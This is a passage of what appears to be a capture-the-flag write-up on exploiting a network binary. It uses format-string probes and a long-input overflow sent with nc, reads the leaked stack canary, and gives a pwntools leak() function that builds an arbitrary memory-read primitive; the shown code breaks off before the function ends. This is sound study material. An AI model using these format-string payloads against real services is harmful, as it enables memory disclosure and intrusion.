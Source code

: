 ```text
$ python -c 'print "%c"*7 + "AAAAAAAA" + ".%p"*50' | nc 172.16.63.245 23
I'm going to ask you a bunch of questions, and I want to have them answered immediately.

Who is your daddy?AAAAAAAA.(nil).0x40007fcab7.0xf6d0049f13023b00.0xf6d0049f13023b00.0x68.(nil).(nil).0x4141414141414141.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x70252e70252e.0x23292.0x40007fcb08.0xf6d0049f13023b00.(nil).(nil).(nil).0x108de.0x1084e.0x1039e.0x40007fcc98.(nil).0x1.0xf6d0049f13023b00.0x6f260.0x103aa.0x1084e.0x10522.(nil).0x1.0x40007fcc88.0x1037e.(nil).0x10502
```

- Buffer Overflow: by sending a long sequence of characters we can notice a crash by the application due to a failure in the stask smashing protection checks. This indicates that application is vulnerable to a buffer overflow and it was compiled with canaries enabled.

```text
$ python -c 'print "A"*1000' | nc 172.16.63.245 23
I'm going to ask you a bunch of questions, and I want to have them answered immediately.

Who is your daddy? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
*** stack smashing detected ***: <unknown> terminated
```

### Information Leakage

From the first output we can identify the following informations:

- since the `%p` specifier is printing 8-bytes values, it means that the application is running on a 64-bit architecture.
- we can identify the canary value because it always ends with a `\x00` character and in this case it's `0xf6d0049f13023b00`.
- we leak some addresses that doesn't really make sense in a X86_64 architecture, such as `0x103aa`.
- if we send the payload multiple times, we notices every time different canary values, indicating that the application is restarted after each connection and it's likely exposed on the network by the [inetd](https://www.freebsd.org/cgi/man.cgi?inetd(8)) service.

After discovering this _critical intel_, the next step is to convert this ability in a arbritary read primitive in order to be able to leak the binary from memory and proceed to static analysis.

The final `leak()` function that will grant us the ability to leak arbitrary addresses and the rest of the code to dump sections of memory is the following:

```python
from pwntools import *

@MemLeak
@MemLeak.NoNewlines
@MemLeak.String
def leak(addr):
  old_level = context.log_level
  context.log_level = 'error'
  r = remote(ADDR, PORT)
  context.log_level = old_level
  r.recvuntil('Who is your daddy? ', drop=True)
  r.sendline('%13$s|||' + '%c'*16  + p64(addr))
  old_level = context.log_level
  context.log_level = 'debug'
  a = r.recvuntil('|||', drop=True)
  log.debug('leaked {} => {}'.format(hex(addr), repr(a)))
```